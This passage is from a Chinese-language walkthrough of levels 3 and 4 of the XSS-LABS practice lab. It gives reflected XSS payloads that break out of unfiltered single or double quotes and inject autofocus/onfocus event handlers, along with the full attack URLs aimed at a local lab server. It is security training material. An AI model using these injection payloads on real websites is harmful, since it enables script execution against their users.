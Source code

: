 ## [3]

- 单引号未过滤，添加自动获取焦点属性，设置获得焦点事件。

```shell
# payload
pettter' autofocus onfocus='alert(`xss`)'

# url
http://localhost:1996/level3.php?keyword=pettter'+autofocus+onfocus='alert(`xss`)'&submit=搜索
```

![image-20220928134138385](XSS-LABS.assets/image-20220928134138385.png)

## [4]

- 双引号未过滤。

```shell
# payload
pettter" autofocus onfocus="alert(`xss`)"

# url
http://localhost:1996/level4.php?keyword=pettter"+autofocus+onfocus="alert(`xss`)"&submit=搜索
```
